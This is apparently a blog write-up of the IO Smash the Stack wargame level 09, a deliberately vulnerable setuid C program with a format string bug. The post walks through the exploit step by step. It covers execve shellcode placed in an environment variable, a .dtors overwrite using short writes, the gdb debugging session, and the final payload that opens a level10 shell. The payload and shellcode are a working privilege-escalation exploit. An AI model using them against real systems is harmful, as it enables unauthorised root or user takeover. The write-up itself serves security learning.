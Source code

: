 +++
title = "IO Smash the stack level 09"
date = "2016-02-13T23:01:00-02:00"
publishdate = "2016-02-13"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-09"
project_url = "https://greyhat.dk/io-smashthestack-level-09"
type = "post"
+++

## Level09

```sh
level9@io:/levels$ ls -latr level09*
-r-------- 1 level9  level9  182 Jan  9  2010 level09.c
-r-sr-x--- 1 level10 level9 6294 Jan  9  2010 level09
```

level9@io:/levels$ cat level09.c
```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
	int  pad = 0xbabe;
	char buf[1024];
	strncpy(buf, argv[1], sizeof(buf) - 1);

	printf(buf);

	return 0;
}
```

A nice string format bug. Alright this should be a walk in the park using short writes when overwriting the .dtors. Lets go

```sh
ilevel9@io:/levels$ export EGG=$(python -c 'print "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"')
level9@io:/levels$ /tmp/desdic1/getenv EGG /levels/level09
EGG will be at 0xbffffeca
level9@io:/levels$ gdb -q /levels/level09
Reading symbols from /levels/level09...done.
(gdb) quit
level9@io:/levels$ nm ./level09|grep __DTOR
080494d4 d __DTOR_END__
080494d0 d __DTOR_LIST__
level9@io:/levels$ gdb -q /levels/level09
Reading symbols from /levels/level09...done.
(gdb) p 0xbfff - 8
$1 = 49143
(gdb) p 0xfeca - 0xbfff
$2 = 16075
(gdb) r $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16075x%5\$hn
Starting program: /levels/level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16075x%5\$hn
...
bffffe5b
...
Program received signal SIGSEGV, Segmentation fault.
0xbffffedc in ?? ()
```

Oki we did not get a shell .. Lets try with the new info we got. We know that it crashed because it pointed to 0xbffffedc which is 18 bytes past our EGG

```sh
(gdb) i reg
eax            0xffffffda	-38
ecx            0xbffffb84	-1073742972
edx            0xbffffb88	-1073742968
ebx            0x80495a8	134518184
esp            0xbffffb80	0xbffffb80
ebp            0xbffffb99	0xbffffb99
esi            0x0	0
edi            0xb7fff908	-1207961336
eip            0xbffffedc	0xbffffedc
eflags         0x10292	[ AF SF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) p 0xfedc - 0xfeca
$3 = 18
(gdb) !echo "16075 - 18"|bc
16057
(gdb) r $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16057x%5\$hn
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16057x%5\$hn
...
bffffe5b
...
                                                                            process 2883 is executing new program: /bin/bash
sh-4.2$
```

And we got a shell but do to gdb we are still level9. Lets try the original without gdb

```sh
level9@io:/levels$ /levels/level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16075x%5\$hn
...
bffffe59
...
sh-4.2$ whoami
level10
```

Oki so what happend. Our EGG is located at 0xbffffeca. When using short writes we have to split our address into words (And decimal)

```sh
echo "ibase=16; BFFF"|bc
49151
echo "ibase=16; FECA"|bc
65226
echo "65226 - 49151"|bc
16075
```

First we convert 0xbfff into decimal (49151) and then 0xfeca (65226) and find the difference hence finding 16075. But before we can use 49151 we need to take account that we added 8 bytes to the stack (The 2 addresses for .dtor) hence getting 49143. So we write 0xbfff to 080494d6 and 0xfeca to 080494d4 pointing our destructor to our EGG.
